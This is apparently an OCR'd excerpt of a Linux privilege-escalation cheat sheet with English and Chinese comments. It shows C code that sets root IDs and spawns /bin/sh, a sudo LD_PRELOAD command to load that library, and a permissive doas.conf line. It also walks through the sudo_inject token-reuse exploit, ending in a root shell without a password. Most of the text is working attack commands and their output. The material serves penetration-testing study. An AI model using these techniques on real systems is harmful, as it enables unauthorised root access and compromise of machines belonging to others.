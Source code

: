 ```
	setgid(0);
	setuid(0);
	system("/bin/sh");
}


# Execute any binary with the LD_PRELOAD to spawn a shell : 
# 使用LD_PRELOAD执行任何二进制文件 以派生得到shell：

sudo LD_PRELOAD=/tmp/shell.so find





# ---------------
# Doas

# There are some alternatives to the sudo binary such as doas for OpenBSD, remember to check its configuration at /etc/doas.conf
# 有一些二进制程序 可以替代 sudo这个二进制程序，比如OpenBSD的doas，记得在/etc/doas.conf检查它的配置，如
# 配置允许:名为demo的用户 可以使用root身份运行vim
permit nopass demo as root cmd vim


# ---------------
# sudo_inject
# Using https://github.com/nongiach/sudo_inject

$ sudo whatever
[sudo] password for user:    

# Press <ctrl>+c since you don't have the password. 
# 没有密码时 直接按<ctrl>+c
# This creates an invalid sudo tokens.
# 创建一个无效的sudo tokens

$ sh exploit.sh
.... wait 1 seconds

# no password required :)
# 无需密码
$ sudo -i
# id
uid=0(root) gid=0(root) groups=0(root)


Slides of the presentation : https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf
```
